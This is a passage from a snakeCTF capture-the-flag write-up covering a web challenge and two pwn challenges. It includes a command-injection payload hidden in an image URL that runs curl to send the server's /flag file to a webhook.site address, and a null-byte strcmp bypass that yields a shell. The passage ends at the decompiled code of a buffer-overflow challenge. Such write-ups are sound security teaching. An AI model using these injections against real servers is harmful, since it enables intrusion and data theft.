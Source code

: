 Let's change the cat's image location with the following one:

`https://webhook.site/YOUR_UUID/start" && curl -X POST -H "Content-Type: multipart/form-data" -F "data=@/flag" https://webhook.site/YOUR_UUID/flag && cat -- "`

Asking for a preview of this image leads to the server sending us the flag at the specified webhook.

🏁 _snakeCTF{I\_th0ugh7\_it\_w4s\_4\_k1tten}_{:.spoiler}

# Pwn

## military grade authentication

> We just started using this military-grade software to authenticate accesses to our infrastructure.<br><br>
> We don't really understand it, but I'm sure that it's secure! We don't know the password either, after all!<br><br>
> nc pwn.snakectf.org 1337

This challenge gives us a binary file which checks for a password:

```c
if ( read(0, s1, 128uLL) <= 0 )
    err(1, "read broken lol");
  if ( !strcmp(s1, (const char *)buf) )
  {
    puts(&s);
    get_shell();
  }
```

the error is obviously in the use of strcmp, as it stops when it finds a null byte,
so to bypass the check we just need to send null bytes and the program will authenticate us as if the password is correct:

```python
r.sendline(b'\x00' * 128)
```

And we get the shell!

🏁 _snakeCTF{h1pp17y\_h0pp17y\_7h47'5\_my\_pr0p3r7y}_{:.spoiler}

## obligatory bof

> Well, you gotta do what you gotta do!<br><br>
> nc pwn.snakectf.org 1338

this is the decompiled code:

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 buf[4]; // [rsp+0h] [rbp-20h] BYREF

  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  init(argc, argv, envp);
  printf("Well, just tell me what to do: ");
  read(0, buf, 256uLL);
  puts("Ok, got it!");
  return 0;
}
```
